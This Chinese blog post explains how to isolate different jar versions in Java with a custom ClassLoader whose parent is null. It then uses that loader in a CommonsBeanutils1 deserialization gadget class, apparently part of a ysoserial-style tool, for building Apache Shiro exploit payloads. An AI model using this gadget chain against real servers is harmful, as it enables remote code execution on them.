



# 自定义 ClassLoader 隔离运行不同版本jar包的方式

## 类加载机制

在 Java 中，所有的类默认通过 ClassLoader 加载，而 Java 默认提供了三层的 ClassLoader，并通过双亲委托模型的原则进行加载，其基本模型与加载位置如下（更多ClassLoader相关原理请自行搜索）：  
  
  
Java 中默认的 ClassLoader 都规定了其指定的加载目录，一般也不会通过 JVM 参数来使其加载自定义的目录，所以我们需要自定义一个 ClassLoader 来加载装有不同版本的 jar 包的扩展目录，同时为了使运行扩展的 jar 包时，与启动项目实现绝对的隔离，我们需要保证他们所加载的类不会有相同的 ClassLoader，根据双亲委托模型的原理可知，我们必须使自定义的 ClassLoader 的 parent 为 null，这样不管是 JRE 自带的 jar 包或一些基础的 Class 都不会委托给 App ClassLoader（当然仅仅是将 Parent 设置为 null 是不够的，后面会说明）。与此同时这些实现了不同版本的 jar 包，是经过二次开发后的可以独立运行的项目。  
​

---

## 实现代码

  

```java
public class StandardExecutorClassLoader extends URLClassLoader {

    private final static String baseDir = System.getProperty("user.dir") + File.separator + "lib" + File.separator;

    public StandardExecutorClassLoader(String version) {
        // 将 Parent 设置为 null
        super(new URL[] {}, null);

        loadResource(version);
    }

    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        // 测试时可打印看一下
       // System.out.println("Class loader: " + name);
        return super.loadClass(name);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        try {
            return super.findClass(name);
        } catch(ClassNotFoundException e) {
            return StandardExecutorClassLoader.class.getClassLoader().loadClass(name);
        }
    }

    private void loadResource(String version) {
        String jarPath = baseDir + version;

        // 加载对应版本目录下的 Jar 包
        tryLoadJarInDir(jarPath);
        // 加载对应版本目录下的 lib 目录下的 Jar 包
        tryLoadJarInDir(jarPath + File.separator + "lib");
    }

    private void tryLoadJarInDir(String dirPath) {
        File dir = new File(dirPath);
        // 自动加载目录下的jar包
        if (dir.exists() && dir.isDirectory()) {
            for (File file : dir.listFiles()) {
                if (file.isFile() && file.getName().endsWith(".jar")) {
                    this.addURL(file);
                    continue;
                }
            }
        }
    }

    private void addURL(File file) {
        try {
            super.addURL(new URL("file", null, file.getCanonicalPath()));
        } catch (MalformedURLException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}
```

  
​

  

---

## Shiro反序列化漏洞实现

​

```java
public class CommonsBeanutils1_192 implements ObjectPayload {
    @Override
    public Object getObject(Object templates) throws Exception {
        StandardExecutorClassLoader classLoader = new StandardExecutorClassLoader("1.9.2");
        Class u = classLoader.loadClass("org.apache.commons.beanutils.BeanComparator");

        Object beanComparator = u.getDeclaredConstructor(String.class).newInstance("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue(2, (Comparator<? super Object>)beanComparator);

        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        Reflections.setFieldValue(beanComparator, "property", "outputProperties");

        Object[] queueArray = (Object[])Reflections.getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = templates;
        return queue;
    }
}
```

  

---

## 参考

<https://blog.csdn.net/t894690230/article/details/73252331>
